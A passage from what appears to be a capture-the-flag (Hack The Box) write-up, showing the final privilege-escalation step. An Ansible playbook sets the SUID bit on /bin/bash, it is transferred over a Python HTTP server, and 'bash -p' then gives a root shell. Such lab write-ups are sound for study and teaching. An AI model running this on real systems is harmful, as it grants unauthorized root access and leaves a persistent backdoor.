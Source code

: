 ```
- hosts: localhost
  tasks:
  - name: Get Root
    command: chmod u+s /bin/bash
    become: true
```

Now transfer the playbook_2.yml file to the remote machine.
In our case we are gonna use python http server.


![transfer](https://github.com/Lynk4/HTB-Writeups/assets/44930131/b51c5df9-b14a-47c8-9431-c93c5292d659)


After transferring the playbook_2.yml file 

execute:
```
ls /bin/bash -al
```

```
bash -p
```

Got the root access.


![root_1](https://github.com/Lynk4/HTB-Writeups/assets/44930131/0332f27e-b14e-413a-9aac-8a388a6b53ad)


Go to the root directory for the root flag.


![root](https://github.com/Lynk4/HTB-Writeups/assets/44930131/cd457267-eb9e-46dd-9734-5ac94453b2ba)

I hope this post has been helpful to you.









